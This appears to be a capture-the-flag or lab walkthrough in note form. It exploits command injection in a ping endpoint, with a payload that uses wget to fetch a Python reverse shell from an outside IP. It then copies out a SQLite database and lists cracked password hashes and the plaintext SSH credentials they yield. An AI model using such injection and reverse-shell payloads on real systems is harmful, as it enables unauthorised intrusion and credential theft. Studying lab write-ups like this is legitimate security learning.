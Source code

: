 - Since we can ping our IP, if we can inject our code in IP, we can get a reverse shell [[Enumeration]]

# Python reverse shell
----
- Detection of RCE:
	- **GET /ping?ip=0.0.0.0;**
	- ![[Pasted image 20250501162612.png]]
	- ![[Pasted image 20250501162645.png]]
- Get a reverse shell by putting **python reverse shell code in a file and transferring it**
	- **GET /ping?ip=0.0.0.0;`wget+10.11.135.80/rev.py`**
	- ![[Pasted image 20250501162726.png]]
- `python rev.py`
	- ![[Pasted image 20250501162826.png]]
- ![[Pasted image 20250501162850.png]]

# Post - Enumeration
---
- Found `sqlite.db`file in current directory of `www`user:
	- ![[Pasted image 20250501163026.png]]
- Transfer using `python3 -m http.server`
	- ![[Pasted image 20250501163237.png]]
	- ![[Pasted image 20250501163248.png]]
- Browser using `sqlitebrowser`built in tool:
	- ![[Pasted image 20250501163419.png]]
	- `admin`  `0d0ea5111e3c1def594c1684e3b9be84`: `mrsheafy`
	- `r00t`    `f357a0c52799563c7c7b76c1e7543a32`: `n100906`
	- Cracked using 
		- ![[Pasted image 20250501163914.png]]

# SSH with r00t user:
---
- `r00t`: `n100906`
